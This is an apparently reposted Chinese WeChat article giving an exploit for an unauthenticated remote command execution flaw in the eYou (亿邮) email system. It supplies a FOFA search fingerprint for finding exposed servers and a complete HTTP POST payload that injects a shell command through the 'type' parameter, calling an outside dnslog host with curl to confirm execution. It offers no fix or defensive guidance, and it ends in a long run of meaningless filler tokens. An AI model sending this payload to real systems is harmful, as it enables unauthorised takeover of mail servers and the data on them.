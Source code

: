 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/yCJFLqSV4F_kOZlyv38C2A)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2x2QpU0Zu3TLnC6fgekxvmHV9IvVMx5aohmSGG1gmRF5RsnXhyaU5nq8FcmbtxKgRJZvCn2JmKAHg/640?wx_fmt=png)

**0x01 漏洞描述**  

亿邮电子邮件系统远程命令执行漏洞，攻击者利用该漏洞可在未授权的情况实现远程命令执行，获取目标服务器权限。

**0x02 影响版本**

未知

**0x03 漏洞利用**

```
## FOFA指纹
title="亿邮电子邮件系统"
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2x2QpU0Zu3TLnC6fgekxvmHd96I0rVZNowdGkbryJ9hVR6Eer6DrzpKCdicicWIeibXwASEtWG3q3Z6A/640?wx_fmt=png)

使用 BurpSuite 抓取登录请求包，修改请求包数据，内容如下：

```
## Payload

POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 192.168.0.120
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://192.168.0.120/
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: https://192.168.0.120
Connection: close
Cookie: EMPHPSID=vmf3t2aaf2kfr6dttd8q46i7p0; empos=0; emLoginTo=via_acct; emLoginUser=admin
Upgrade-Insecure-Requests: 1

type='|curl gd8oyi.dnslog.cn||'
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2x2QpU0Zu3TLnC6fgekxvmHytDrepIHLia8icHicr0dwIfg38Z1O4AYePGEbAyPpSOP8sG9rfgZbzIoA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2x2QpU0Zu3TLnC6fgekxvmHJSY20N2B1dqDIbbbWQwOBgUdnNqpVIYABNbFgKB4mnFYRjxhPEV5wQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2x2QpU0Zu3TLnC6fgekxvmHx47cEp8nkZPgDY1ibqImvxJPJzeko6T9cMIyaOUXicic0HvTvWOMCIDPA/640?wx_fmt=png)

<凑字数>< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数